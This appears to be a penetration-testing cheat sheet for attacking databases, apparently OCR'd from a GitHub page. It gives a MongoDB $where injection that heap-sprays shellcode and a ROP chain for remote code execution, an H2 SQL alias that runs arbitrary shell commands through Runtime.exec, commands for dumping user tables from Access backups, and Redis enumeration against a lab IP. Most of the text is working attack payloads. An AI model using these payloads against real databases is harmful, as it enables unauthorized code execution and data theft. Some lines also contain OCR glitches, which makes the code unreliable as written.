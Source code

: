 ## Tools 

- NoSQLMap - <https://github.com/codingo/NoSQLMap>
- SQLMap - <http://sqlmap.org/>

## MongoDB

- Connect: `mongo -p -u $USER $DB_NAME`
- RCE: <https://cxsecurity.com/issue/WLB-2013030212>
    ```javascript
    db.my_collection.find({'$where':'shellcode=unescape("METASPLOIT JS GENERATED SHELLCODE"); sizechunk=0x1000; chunk=""; for(i=0;i<sizechunk;i++){ chunk+=unescape("%u9090%u9090"); } chunk=chunk.substring(0,(sizechunk-shellcode.length)); testarray=new Array(); for(i=0;i<25000;i++){ testarray[i]=chunk+shellcode; } ropchain=unescape("%uf768%u0816%u0c0c%u0c0c%u0000%u0c0c%u1000%u0000%u0007%u0000%u0031%u0000%uffff%uffff%u0000%u0000"); sizechunk2=0x1000; chunk2=""; for(i=0;i<sizechunk2;i++){ chunk2+=unescape("%u5a70%u0805"); } chunk2=chunk2.substring(0,(sizechunk2-ropchain.length)); testarray2=new Array(); for(i=0;i<25000;i++){ testarray2[i]=chunk2+ropchain; } nativeHelper.apply({"x" : 0x836e204}, ["A"+"\x26\x18\x35\x08"+"MongoSploit!"+"\x58\x71\x45\x08"+"sthack is a nice place to be"+"\x6c\x5a\x05\x08"+"\x20\x20\x20\x20"+"\x58\x71\x45\x08"]);'})
    ```
- References:
    - <https://blog.websecurify.com/2014/08/hacking-nodejs-and-mongodb.html>

## Microsoft Access

- MDB Tools - Read Access databases on \*nix: <https://github.com/brianb/mdbtools>
    ```bash
    mdb-tables backup.mdb | grep --color=auto user
    mdb-export backup.mdb tableName
    ```

## H2 

- RCE:
    ```sql
    CREATE​ ​ALIAS​ SHELLEXEC ​AS​ $$ ​String​ shellexec(​String​ cmd) throws java.io.IOException { java.util.Scanner s = ​new java.util.Scanner(Runtime.getRuntime().exec(cmd).getInputStream()).useDelim iter(​"\\A"​); return s.hasNext() ? s.next() : ""; }$$;
    CALL​ SHELLEXEC(​'id'​)
    ```

## Redis 

- Redis-tools: `sudo apt-get install redis-tools`
- <http://antirez.com/news/96>
- Connect and basic query:
    ```bash
    redis-cli -h 10.10.10.160
    10.10.10.160:6379> dbsize
    (integer) 0
    (0.51s)
    10.10.10.160:6379> CONFIG GET databases
    1) "databases"
    2) "16"
    (0.63s)
    10.10.10.160:6379> INFO keyspace
    # Keyspace
    (0.56s)
    10.10.10.160:6379> INFO
    ```